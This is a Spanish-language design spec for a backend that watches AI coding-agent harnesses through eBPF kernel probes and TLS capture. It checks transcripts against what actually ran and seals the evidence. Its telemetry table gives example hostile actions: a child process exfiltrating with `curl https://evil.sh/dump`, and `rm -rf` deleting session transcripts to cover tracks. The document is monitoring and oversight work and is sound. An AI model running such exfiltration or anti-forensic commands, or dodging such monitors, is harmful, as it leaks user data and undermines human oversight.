

# BACKEND — la nueva arquitectura

> **Principio: el back no captura nada.** El kernel captura (eBPF); el back ingiere, correlaciona, detecta mentiras, sella, ancla y sirve. Cero middleware, cero userspace en la ruta de evidencia — si el harness miente, el kernel ya lo vio.
>
> El stage 0 (evidence/anchor/alerts/chaos) fue removido. Este doc es la spec de reconstrucción.

## Entornos prioritarios: Node

Los dos harness objetivo corren sobre Node:

| Harness | Runtime |
|---|---|
| **Claude Code** | Node (npm) — usa el node del sistema |
| **pi.dev** (`@earendil-works/pi-coding-agent`) | Node ≥ 22.19 — harness minimal |

Por qué Node: el Node de distro linkea `libssl.so` **dinámica** → ecapture (módulo openssl) hookea `SSL_write`/`SSL_read` en plaintext → el triángulo de evidencia queda completo (lo que el modelo dijo ⑦, lo que el harness registró ④, lo que realmente pasó ①②③).

Verificación en el host de demo (hacer hoy sábado, antes de dormir):

```sh
ldd $(which node) | grep libssl
# esperado: libssl.so.3 => /lib/x86_64-linux-gnu/libssl.so.3
```

Si el runtime trae OpenSSL estático (binario oficial nodejs.org / NodeSource), ④⑦ no son hookeables → **fallback**: caja negra de acciones (①②③⑤⑥⑧). El demo de exfiltración y anti-forense no depende de la TLS.

## Pipeline



Lectura: **ninguna flecha de userspace llega a ningún lado sin cruzar un probe del kernel.** La única TLS que el harness no ve es la de su propio hijo (⑤) — y el kernel la ve igual.

## Puntos de telemetría — flujo api→tls y responsable

La clave de esta tabla: **solo hay una TLS legítima en el sistema — la del harness contra la API** (el sandbox nunca habla con el modelo). La única fila donde aparece una TLS de otro responsable es la ⑤, y justo por eso es la fila de exfiltración. Ejemplos con Claude Code (pi.dev es análogo: mismo Node, mismos hijos).

| # | Probe eBPF | Qué captura | Ejemplo del flujo (api→tls) | Resp. de la TLS | Mentira que cierra | Prio |
|---|---|---|---|---|---|---|
| 1 | `sys_enter_execve` | Comando real + argv | API responde `tool_use {cmd:"pnpm test"}` → viaja por la TLS del harness → harness hace `fork/exec("/bin/bash","-lc","pnpm test")` | **Harness** (la orden nació en su TLS con la API; el execve lo dispara él como parent) | Harness sustituye el comando; modelo inventa acciones | **P0** |
| 2 | `sys_enter_exit_group` | Exit code real | El hijo termina → `exit_group(1)` — local, cero TLS; ese 1 *debería* viajar luego como tool_result por la TLS del harness | **Harness** (es quien debe reportarlo al API) | "Todo pasó" con exit 1 | **P0** |
| 3 | `sys_enter_write` fd 1/2 | stdout/stderr real | `bash` escribe `FAIL src/app.spec.ts` al pipe (fd 1) → harness lo lee → lo manda como `tool_result` en `POST /v1/messages` (TLS) | **Harness** (dueño de la TLS donde ese contenido debería aparecer íntegro) | Harness edita/trunca/fabrica la salida | **P0** |
| 4 | uprobe `SSL_write` | Plaintext del request | `POST https://api.anthropic.com/v1/messages` — body con **todo** el historial: messages + tool_results. Capturado en plaintext antes de cifrar | **Harness** — es su socket, su TLS | Lado "claims": lo que el harness le cuenta al modelo que pasó | **P0** |
| 5 | `sys_enter_connect` / `kprobe:tcp_connect` | Destino IP:puerto | (a) harness conecta a `api.anthropic.com:443` — legítima; (b) el hijo ejecuta `curl https://evil.sh/dump` y conecta a `45.x.x.x:443` — **esta TLS el harness jamás la ve** | (a) **Harness**; (b) **Sandbox/hijo** — la única fila con TLS de otro responsable | Exfiltración por omisión; reemplaza el Egress Gateway | P1 |
| 6 | `sys_enter_openat` / `sys_enter_unlinkat` | Archivos tocados/borrados | El hijo ejecuta `rm -rf ~/.claude/projects/sesión.jsonl` — local, sin TLS; actor: hijo (anti-forense) o harness | — (no hay TLS; acción pura del filesystem) | El rogue borra sus rastros | P1 |
| 7 | uprobe `SSL_read` | Respuesta original del modelo | `200 OK` + SSE `event: content_block_delta` con el `tool_use` **original** del modelo, llegando por el socket del harness | **Harness** (su socket) — contenido originado por el proveedor | Harness edita lo que el modelo dijo antes de ejecutarlo | P2 |
| 8 | `write` a paths del transcript | El transcript al escribirse | Harness escribe `~/.claude/projects/.../abc123.jsonl` — su versión oficial de la historia, en disco, sin TLS | — (local; actor: harness) | Harness reescribe su historia después | P2 |

Lectura de la columna responsable:

```text
TLS legítima (única):  API del modelo ←—— TLS #1 ——→ HARNESS      ← responsable: harness, siempre
TLS sospechosa:        HIJO/SANDBOX —— TLS #2 ——→ cualquier lado ← responsable: sandbox (fila 5b)
```

- **Filas 1, 2, 3, 4, 7:** todo el contenido en juego nace o muere en la TLS #1 (harness↔API). El responsable de que sea fiel es el harness — sus diffs detectan mentiras **del harness o del modelo**, nunca del sandbox.
- **Fila 5:** la única con TLS del sandbox. Esa TLS es invisible para el harness (no pasa por él) y solo el kernel la ve — es exactamente el canal de exfiltración que un Egress Gateway dentro del harness se pierde. Por eso el probe va en el kernel y filtra por cgroup.
- **Filas 6 y 8:** sin TLS — son las filas de anti-forense local (qué archivos tocó/borró el hijo, qué escribió el harness en su propio diario).

Traducción para el pitch: **el harness responde por todo lo que cruza la TLS #1; el sandbox responde por cada connect que no sea hacia la API; y el kernel es el único testigo presente en ambas fronteras.**

## Módulos — todo a construir, en este orden

### 1. `capture` — ingesta de la captura kernel
- Lee el JSONL que emite el collector del host (`bpftrace` + `ecapture`).
- Normaliza: `{ ts (monotónico), seq, pid, cgroup, session, tipo, payload }`.
- Se pierde cero eventos (seq propio por stream).

### 2. Correlación — unidades de ejecución
- Ensambla por PID: `execve(pid)` → `write fd 1/2 (pid)` → `exit_group(pid)` = una unidad de ejecución.
- Une argv en cadena (`bash → pnpm → node`) — match de cadena completa, no primer token.
- Asigna la unidad a la sesión del cgroup.

### 3. `differ` — el detector de mentiras
- **Claims**: bodies ④ (cada request al API trae el historial completo) y ⑦ (tool_use original).
- **Verdad**: unidades de ejecución.
- Tres diffs: **A** original-vs-ejecutado · **B** registrado-vs-resultados · **C** registrado-vs-original.
- Emite `DISCREPANCIA`. La truncación **declarada** no es discrepancia.
- Si todo matchea, también se sella: la cadena prueba las mentiras **y los días normales**.

### 4. `evidence` — sellado
- Hash-chain por sesión (`seq` + `prev_hash`), agregación Merkle, firma ML-DSA (`@noble/post-quantum`).
- Store en Postgres — el hash es la prueba.
- Endpoints a reconstruir: `POST /api/events`, `GET /api/sessions`, `GET /api/sessions/:id/events`, `GET /api/sessions/:id/state`, `GET /api/sessions/:id/verify`, `DELETE /api/sessions/:id`, SSE `/events`, `GET /health`.

### 5. `anchor` — anclaje
- Job periódico: raíz Merkle → `contracts/EvidenceRegistry.sol` (Sepolia). El contrato ya existe.

### 6. `alerts`
- Dispara cuando el differ emite `DISCREPANCIA`.

## Contrato de eventos del collector

| Probe | Línea | Campos |
|---|---|---|
| ① execve | `EXEC` | ts, pid, argv[] |
| ② exit_group | `EXIT` | ts, pid, code |
| ③ write fd 1/2 | `OUT` | ts, pid, fd, bytes (truncado ~4KB, marcado) |
| ⑤ connect | `NET` | ts, pid, ip:puerto |
| ④⑦ TLS | `TLS` | dirección (req/resp), body plaintext |

## Orden de construcción (deadline domingo 10:00, freeze 06:00)

1. **Host (hoy sábado):** `actions.bt` (bpftrace ①②③⑤), ecapture si `ldd` verde, probar bajo `systemd-run --slice=trust-agent.slice`.
2. `capture` + correlación — ingesta y unidades de ejecución.
3. `evidence` (rebuild) — hash-chain + Merkle + store + endpoints/SSE + health.
4. `differ` + scenario rogue: un agente real (Claude Code o pi.dev) mintiendo — el swarm viejo se reescribe sobre esto.
5. `anchor` — Sepolia con faucet probado.
6. `alerts`.

## Frontera

- Todo el host queda cubierto: syscalls del cgroup + TLS del proceso (④⑦) + TLS del hijo (⑤ — la que el harness no ve).
- **Techo epistémico:** la cadena de custodia empieza en el socket del harness. Del proveedor para arriba no hay testigo mayor — se declara así en el pitch.
- eBPF es per-host: cada host con agentes corre su collector.
